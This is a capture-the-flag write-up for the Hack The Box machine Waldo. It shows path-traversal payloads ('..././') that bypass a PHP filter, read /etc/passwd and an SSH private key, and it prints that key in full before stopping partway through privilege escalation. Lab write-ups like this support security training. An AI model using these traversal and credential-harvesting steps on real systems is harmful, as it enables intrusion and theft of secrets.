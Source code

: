 ```yaml
---
layout: default
title: "HTB Waldo"
description: "10.10.10.87 | 30 pts"
header-img: "boxes/screenshots/14_waldo/waldo.png"
tags: []
---
```


# HTB Waldo (10.10.10.87) MACHINE WRITE-UP

### TABLE OF CONTENTS

* [PART 1 : INITIAL RECON](#part-1--initial-recon)
* [PART 2 : PORT ENUMERATION](#part-2--port-enumeration)
  * [TCP PORT 80 (http)](#tcp-port-80-http)
* [PART 3 : EXPLOITATION](#part-3--exploitation)
* [PART 4 : GENERATE USER SHELL](#part-4--generate-user-shell)
* [PART 5 : LATERAL MOVEMENT (nobody -&gt; monitor)](#part-5--lateral-movement-nobody---monitor)
* [PART 6 : PRIVILEGE ESCALATION (monitor -&gt; root)](#part-6--privilege-escalation-monitor---root)

---

## PART 1 : INITIAL RECON

```console
$ nmap --min-rate 1000 -p- -v 10.10.10.87
  
  PORT   STATE SERVICE
  22/tcp open  ssh
  80/tcp open  http

$ nmap -p 22,80 -sC -sV -v 10.10.10.87

  PORT   STATE SERVICE VERSION
  22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
  | ssh-hostkey: 
  |   2048 c4:ff:81:aa:ac:df:66:9e:da:e1:c8:78:00:ab:32:9e (RSA)
  |   256 b3:e7:54:6a:16:bd:c9:29:1f:4a:8c:cd:4c:01:24:27 (ECDSA)
  |_  256 38:64:ac:57:56:44:d5:69:de:74:a8:88:dc:a0:b4:fd (ED25519)
  80/tcp open  http    nginx 1.12.2
  | http-methods: 
  |_  Supported Methods: GET HEAD POST
  |_http-server-header: nginx/1.12.2
  | http-title: List Manager
  |_Requested resource was /list.html
  |_http-trane-info: Problem with XML parsing of /evox/about

```

---

## PART 2 : PORT ENUMERATION

### TCP PORT 80 (http)

- __`http://10.10.10.87`__:

  ![80 Landing Page](./screenshots/14_waldo/80_landing_page.png)

  __NOTE(S)__:
  - Opening the __List Manager__ makes a POST request to __`dirRead.php`__:
    ```pcap
    POST /dirRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 13
    Connection: keep-alive
    
    path=./.list/
    ```

  - Opening a list makes a POST request to __`fileRead.php`__:
    ```pcap
    POST /fileRead.php HTTP/1.1
    Host: 10.10.10.87
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
    Accept: */*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://10.10.10.87/list.html
    Content-type: application/x-www-form-urlencoded
    Content-Length: 18
    Connection: keep-alive

    file=./.list/list1
    ```

---

## PART 3 : EXPLOITATION

- Try reading the contents of __`dirRead.php`__:
  - __`POST /fileRead.php`__ | __`file=./dirRead.php`__:
    ```json
    {"file":"<?php\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\tif(isset($_POST['path'])){\n\t\theader('Content-type: application\/json');\n\t\t$_POST['path'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['path']);\n\t\techo json_encode(scandir(\"\/var\/www\/html\/\" . $_POST['path']));\n\t}else{\n\t\theader('Content-type: application\/json');\n\t\techo '[false]';\n\t}\n}\n"}
    ```
    ```php
   <?php

    if($_SERVER['REQUEST_METHOD'] === "POST"){
    	if(isset($_POST['path'])){
    	    header('Content-type: application/json');
    	    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
            echo json_encode(scandir("/var/www/html/" . $_POST['path']));
    	}else{
    	    header('Content-type: application/json');
    	    echo '[false]';
    	}
    }
 
    ```
  - __`POST /fileRead.php`__ | __`file=./fileRead.php`__:
    ```json
    {"file":"<?php\n\n\nif($_SERVER['REQUEST_METHOD'] === \"POST\"){\n\t$fileContent['file'] = false;\n\theader('Content-Type: application\/json');\n\tif(isset($_POST['file'])){\n\t\theader('Content-Type: application\/json');\n\t\t$_POST['file'] = str_replace( array(\"..\/\", \"..\\\"\"), \"\", $_POST['file']);\n\t\tif(strpos($_POST['file'], \"user.txt\") === false){\n\t\t\t$file = fopen(\"\/var\/www\/html\/\" . $_POST['file'], \"r\");\n\t\t\t$fileContent['file'] = fread($file,filesize($_POST['file']));  \n\t\t\tfclose();\n\t\t}\n\t}\n\techo json_encode($fileContent);\n}\n"}
    ```
    ```php
    <?php
 
 
    if($_SERVER['REQUEST_METHOD'] === "POST"){
        $fileContent['file'] = false;
        header('Content-Type: application/json');
        if(isset($_POST['file'])){
            header('Content-Type: application/json');
            $_POST['file'] = str_replace( array("../", "..""), "", $_POST['file']);
            if(strpos($_POST['file'], "user.txt") === false){
                    $file = fopen("/var/www/html/" . $_POST['file'], "r");
                    $fileContent['file'] = fread($file,filesize($_POST['file']));
                    fclose();
            }
        }
        echo json_encode($fileContent);
    } 
    ```
    
  __NOTE(S)__:
  - The base directory being used by __`dirRead.php`__ and __`fileRead.php`__ is __`/var/www/html/`__.
  - Reading or listing files outside __`/var/www/html/`__ will not work since the requested directory or file path will just be appended to the base directory.
  - Backwards directory traversal are "avoided" by converting __`../`__ or __`.."`__ to an empty string.
  - This could be bypassed by requesting __`..././`__ which would be converted to __`../`__ since this and other functions like `preg_replace()` are not recursive.

>

- Enumerate files outside the __`/var/www/html/`__ directory:
  - __`POST /fileRead.php`__ | __`file=..././..././..././etc/passwd`__:
    ```json
    {"file":"root:x:0:0:root:\/root:\/bin\/ash\nbin:x:1:1:bin:\/bin:\/sbin\/nologin\ndaemon:x:2:2:daemon:\/sbin:\/sbin\/nologin\nadm:x:3:4:adm:\/var\/adm:\/sbin\/nologin\nlp:x:4:7:lp:\/var\/spool\/lpd:\/sbin\/nologin\nsync:x:5:0:sync:\/sbin:\/bin\/sync\nshutdown:x:6:0:shutdown:\/sbin:\/sbin\/shutdown\nhalt:x:7:0:halt:\/sbin:\/sbin\/halt\nmail:x:8:12:mail:\/var\/spool\/mail:\/sbin\/nologin\nnews:x:9:13:news:\/usr\/lib\/news:\/sbin\/nologin\nuucp:x:10:14:uucp:\/var\/spool\/uucppublic:\/sbin\/nologin\noperator:x:11:0:operator:\/root:\/bin\/sh\nman:x:13:15:man:\/usr\/man:\/sbin\/nologin\npostmaster:x:14:12:postmaster:\/var\/spool\/mail:\/sbin\/nologin\ncron:x:16:16:cron:\/var\/spool\/cron:\/sbin\/nologin\nftp:x:21:21::\/var\/lib\/ftp:\/sbin\/nologin\nsshd:x:22:22:sshd:\/dev\/null:\/sbin\/nologin\nat:x:25:25:at:\/var\/spool\/cron\/atjobs:\/sbin\/nologin\nsquid:x:31:31:Squid:\/var\/cache\/squid:\/sbin\/nologin\nxfs:x:33:33:X Font Server:\/etc\/X11\/fs:\/sbin\/nologin\ngames:x:35:35:games:\/usr\/games:\/sbin\/nologin\npostgres:x:70:70::\/var\/lib\/postgresql:\/bin\/sh\ncyrus:x:85:12::\/usr\/cyrus:\/sbin\/nologin\nvpopmail:x:89:89::\/var\/vpopmail:\/sbin\/nologin\nntp:x:123:123:NTP:\/var\/empty:\/sbin\/nologin\nsmmsp:x:209:209:smmsp:\/var\/spool\/mqueue:\/sbin\/nologin\nguest:x:405:100:guest:\/dev\/null:\/sbin\/nologin\nnobody:x:65534:65534:nobody:\/home\/nobody:\/bin\/sh\nnginx:x:100:101:nginx:\/var\/lib\/nginx:\/sbin\/nologin\n"}
    ```
    ```
    root:x:0:0:root:/root:/bin/ash
    ...omitted...
    operator:x:11:0:operator:/root:/bin/sh
    ...omitted...
    postgres:x:70:70::/var/lib/postgresql:/bin/sh
    ...omitted...
    nobody:x:65534:65534:nobody:/home/nobody:/bin/sh
    ...omitted...
    ```
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/`__:
    ```php
    [".","..",".ash_history",".ssh",".viminfo","user.txt"]
    ```

---

## PART 4 : GENERATE USER SHELL

- Check for credentials or private keys in the system:
  - __`POST /dirRead.php`__ | __`path=..././..././..././home/nobody/.ssh/`__:
    ```php
    [".","..",".monitor","authorized_keys","known_hosts"]
    ```
  - __`POST /fileRead.php`__ | __`file=..././..././..././home/nobody/.ssh/.monitor`__:
    ```json
    {"file":"-----BEGIN RSA PRIVATE KEY-----\NMIIEOGIBAAKCAQEAS7SYTDE++NHAWB9E+NN3V5T1DP1TYHC+4O8D362L5NWF6CPL\NMR4JH6N4NCCDM1ZU+QB77LI8ZOVYMBTIEY4FM07X4PQT4ZENBFQKWKOCYV1TLW6F\N87S0FZBHYAIZGRNNELLHB1IZIJPDVJUBSXG6S2CXALE14CJ+PNEIRTSYMIQ1NJCS\NDGCC\/GNPW\/AANIN4VW9KSLLQIAEDJFCHY55SCJ5162Y9+I1XZQF8E9B12WVXIRVN\NO8PLGNFJVW6SHHMPJSUE9VJAIEH+N+5XKBC8\/6PCEOWQS9UJRKNZH9T1LJQ4FX1V\NVI93DAQ3BZ3DHIIWAWAFMQZG+JSTHSWOIWR73WIDAQABAOIBADHWL\/WDMUPEW6KU\NVMZHRU3GCJUZWBET0TNEJBL\/KXNWXR9B2I0DHWFG8IJW1LCU29NV8B+EHGP+BR\/6\NPKHMFP66350XYLNSQISHHIRMOSPYDGQVST4KBCP5VBTTDGC7RZF+EQZYEQFDRKW5\N8KUNPTTMNWWLPYYJLSJMSRSN4BQYT3VRKTYKJ9IGU2RRKGXRNDCAC9EXGRUEVJ3Q\N1H+7O8KGEPMKNEOGUGEJRN69HXYHFBEJ0WLLL8WORT9YUMMOX\/05QOOBL4KQXUM7\NVXI2YWU46+QTZTMEOKJOYLCGLYXDKG5ONDFDPBW3W8O6ULVFKV467M3ZB5YE8GES\NDVA3YLECGYEA7JK51MVUGSIFF6GKXSNB\/W2CZGE9TIXBWUQWEEIG0BMQQVX2ZWWO\NV0OG0X\/IROXACP6Z9WGPIC6FHVGJD\/4BNLTR+A\/LWQWFT1B6L03XDSYAIYIWI9XR\NXSB2SLNWP56A\/5TWTPOKFDBGCQRQHVUKWSHLYFOZGQA0ZTMNV71YKH0CGYEAWSSY\NQFFDAWRVVZJP26YF\/JNZAVLCAC5HMHO7EX5ISCVCX86MHQPEYAFCECZN2DFFOPQI\NYZHZGB9N6Z01YUEKQRKNO3TA6JYJ9OJAMF8GZWVUTPZN41KSND4MWETBED4BUAH1\N\/PACW\/+\/OYSH4BWKKNVHKNW36C+WMNOAX1FWQISCGYBYW\/IMNLA3DRM3CIAA32IU\NLROTP4QGAAMXPNCSMIPAGE6CRFVHIUOZ1SFNBV189Q8ZBM4PXQGKLLOJ8B33HDQ\/\NLNN2N1WYTIYEUGA\/QMDKOPB+TUFF1A5EZZZ0UR5WLLWA5NBEALDNOYTBK1P5N4KP\NW7UYNREX6DGOBT2MD+10CQKBGGVQLYUNE20K9QSHVZTU3E9Z1RL+6LLDMZTFC3G9\N1HLMBKDTJJJ\/XAJAZUIOF4RS\/INNKJ6+QYGKFAPRXXCPF9NACLQJAZGAMXW50AQT\NRJ1BHUCZZCUGQABTPC6VYJ\/HLLLZPIC05AIEHDDVTOPK\/0WUY64FDS0VCCAYMMDR\NX\/PLAOGAS6UHBCM5TWZHTL\/HDPROFAR3QKXWZ5XVAYKB90XGIPS5CWUGCCSVWQF2\NDVVNY8GKBM\/OENWHNTLWRTEJ5QDEAM40OJ\/MWCDC6KPV1LJXRW2R5MCH9ZGBNFLA\NW0IKCBUAM5XZGU\/YSKMSCBMNMA8A5NDRWGFEFE+VGDVPARIE0RO=\N-----END RSA PRIVATE KEY-----\N"}
    ```
    ```rsa
    -----BEGIN RSA PRIVATE KEY-----
    MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
    mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
    87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
    dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
    o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
    vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
    vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
    pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
    8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
    1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
    VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
    dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
    v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
    xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
    qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
    yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
    /pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
    LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
    lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
    w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
    1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
    rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
    X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
    DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
    W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
    -----END RSA PRIVATE KEY-----
    ```

- Save the private key then change its permissions:
  ```console
  $ chmod 400 .monitor
  ```

- Login via __`ssh`__ using the private key as the user, __`nobody`__:
  ```console
  $ ssh -i .monitor -l nobody 10.10.10.87

  $ id 
   
    uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)

  $ cat user.txt

    3276........................9d24
  
  ```

---

## PART 5 : LATERAL MOVEMENT (nobody -> monitor)

- Re-examine the __`~/.ssh`__ directory:
  - __`authorized_keys`__:
    ```rsa
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzuzK0MT740dpYH17403dXm3UM/VNgdz7ijwPfraXk3B/oKmWZHgk
    fqfg1xx2bVlT6oHvuWLxk6/KYG0gRjgWbTtfg+q3jN40F+opaQ5zJXVMtbp/zuzQVkGFgCLMas014suEHUhkiOkNUlR
    tJcbqzZzECV7XhyP6mcSJFOzIyKrWckJJ0YJz+A2lb8AA0g3i9b0qyUuqIAQMl9yFjnmwInnXrZj34jXHOoXx71vXbB
    VeKu82jw8sacUlXDpIeGY8my572+MAh4f6f7leRtzz/qlx6jCqz26NGQ3Mf1PWUmrgXHVW+L3cNqrdtnd2EghZpZp+a
    rOD6NJOFJY4jBHvf monitor@waldo
    ```
    __NOTE(S)__:
    - The private key from earlier seems to have been created for a user, __`monitor`__.
>
- Connect to __`monitor@waldo`__ via ssh using the __`nobody`__ terminal:
  ```console
  $ ssh -i ~/.ssh/.monitor monitor@waldo -t sh

  $ id 
  
    uid=1001(monitor) gid=1001(monitor) groups=1001(monitor)

  ```

---

## PART 6 : PRIVILEGE ESCALATION (monitor -> root)

- Enumerate the system:
  ```console
  $ echo $PATH
    
    /home/monitor/bin:/home/monitor/app-dev:/home/monitor/app-dev/v0.1

  $ ls -l ~/bin
  
    lrwxrwxrwx 1 root root  7 May  3  2018 ls -> /bin/ls
    lrwxrwxrwx 1 root root 13 May  3  2018 most -> /usr/bin/most
    lrwxrwxrwx 1 root root  7 May  3  2018 red -> /bin/ed
    lrwxrwxrwx 1 root root  9 May  3  2018 rnano -> /bin/nano

  $ getcap ~/bin/*

    bash: getcap: command not found

  ```
  __NOTE(S)__:
  - The only binaries to could be executed are the ones inside __`monitor`__'s home directory.
  - The binaries are __*symlinked*__ to the usual directories like __`/usr/bin/`__ and __`/bin`__.
  - The environment variable, __`PATH`__, enables binaries to be executed without calling their __absolute paths__.
  - The limitation could be overcome by actually calling a binary's absolute path or by exporting the other directories to the environment variable, __`PATH`__.
>
- Export the other paths to __`$PATH`__: 


